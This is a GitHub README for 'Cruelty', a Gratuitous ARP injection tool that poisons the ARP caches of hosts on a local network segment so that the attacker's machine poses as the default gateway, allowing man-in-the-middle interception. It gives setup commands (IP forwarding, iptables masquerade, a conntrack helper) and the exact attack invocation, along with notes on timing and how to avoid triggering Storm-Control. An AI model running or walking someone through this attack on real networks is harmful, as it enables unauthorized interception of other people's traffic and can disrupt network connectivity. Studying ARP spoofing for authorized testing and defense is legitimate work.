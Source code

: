 # Cruelty
Gratuitous ARP Injector

```
python3 Cruelty.py --help                                                                                                                      2 

 ▄▄▄▄   ▓█████▄▄▄█████▓ ██▀███   ▄▄▄     ▓██   ██▓ ▄▄▄       ██▓    
▓█████▄ ▓█   ▀▓  ██▒ ▓▒▓██ ▒ ██▒▒████▄    ▒██  ██▒▒████▄    ▓██▒    
▒██▒ ▄██▒███  ▒ ▓██░ ▒░▓██ ░▄█ ▒▒██  ▀█▄   ▒██ ██░▒██  ▀█▄  ▒██░    
▒██░█▀  ▒▓█  ▄░ ▓██▓ ░ ▒██▀▀█▄  ░██▄▄▄▄██  ░ ▐██▓░░██▄▄▄▄██ ▒██░    
░▓█  ▀█▓░▒████▒ ▒██▒ ░ ░██▓ ▒██▒ ▓█   ▓██▒ ░ ██▒▓░ ▓█   ▓██▒░██████▒
░▒▓███▀▒░░ ▒░ ░ ▒ ░░   ░ ▒▓ ░▒▓░ ▒▒   ▓▒█░  ██▒▒▒  ▒▒   ▓▒█░░ ▒░▓  ░
▒░▒   ░  ░ ░  ░   ░      ░▒ ░ ▒░  ▒   ▒▒ ░▓██ ░▒░   ▒   ▒▒ ░░ ░ ▒  ░
 ░    ░    ░    ░        ░░   ░   ░   ▒   ▒ ▒ ░░    ░   ▒     ░ ░   
 ░         ░  ░           ░           ░  ░░ ░           ░  ░    ░  ░
      ░                                   ░ ░                                                                                                             
    
Gratuitous ARP Injector
Author: Caster, @c4s73r, <c4s73r@protonmail.com>

usage: Cruelty.py [-h] --gateway GATEWAY --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --gateway GATEWAY     Choose gateway IP address
  --interface INTERFACE
                        Choose your interface for attack
  --mac EVILMAC         Specify your MAC Address
```

## Mechanics
It is a modification of ARP spoofing. The script will shout at the entire channel segment that your computer is the default gateway by sending Gratuitous ARP messages.
Gratuitous ARP is a special ARP frame that sends out an announcement that a new binding of MAC address and IP address has occurred. This can be used by an attacker to conduct an MITM attack, run a script against the router's IP address.

The scanner waits for the following arguments as input:
  - network interface (--interface)
  - your MAC Address (--mac)
  - IP address of gateway (--gateway)
  
## How to use it

1. Install dependencies
```
git clone https://github.com/c4s73r/Cruelty
sudo pip3 install -r requirements.txt
```
2. Enable Forwarding, MASQUERADE, NAT Helper 
```
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUERADE
sudo modprobe nf_conntrack
echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
3. Attack
```
sudo python3 Cruelty.py --interface ethX --mac XX:XX:XX:XX:XX:XX --gateway <GW IP>
```
## Limitations
This attack is very noisy.
The tool does not restore the structure of ARP tables by itself. After the attack stops, the gateway's MAC address on the clients will change only after 5 minutes. Understand how ARP works.
GARP frames are sent every 800 ms. You can edit the script code and change the delay before sending the next frame, but be careful. There is a chance to strigger the Storm-Control system.

